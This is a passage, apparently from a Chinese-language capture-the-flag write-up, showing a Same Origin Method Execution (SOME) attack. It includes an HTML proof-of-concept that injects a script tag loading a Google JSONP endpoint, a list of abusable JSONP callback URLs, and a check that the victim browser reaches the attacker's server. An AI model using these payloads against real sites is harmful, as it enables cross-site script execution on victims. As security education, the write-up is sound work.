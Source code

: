 step1.html:
```
<body>
<script>
    window.location = 'http://127.0.0.1:8080/article?name=Phone&img=&time=<script/src&unit==%22//www.google.com/tools/feedback/escalation-options%3fcallback=window.opener.ggg.click%22>';
</script>
<body>
```

我們找到兩個 `www.google.com` 上的 JSONP Endpoint，上面 PoC 使用第一個 Endpoint。

- `www.google.com/tools/feedback/escalation-options?callback=alert`
- `www.google.com/uds/GwebSearch?callback=alert&context=1&rsz=large&q=R&v=0.1`


送出 Url `http://yourip/main.html` 然後等待自己伺服器的 access.log 更新，接著就能發現目標瀏覽器確實跳轉到 `http://yourip/ping` 且 Referer 也確實是 `http://127.0.0.1:8080/admin`，表示 SOME 可以 work。
![](bypasses-everywhere_07.png)

SOME 除了可執行已存在函式或事件以外，我們也能透過他執行 setTimout、eval、document.write 等危險函式作進一步的操作，但前提是除了能控制 JSONP 的 callback 外還要能控制參數內容。所以我們 ... 就去吃飯了 ¯\\_(ツ)_/¯。
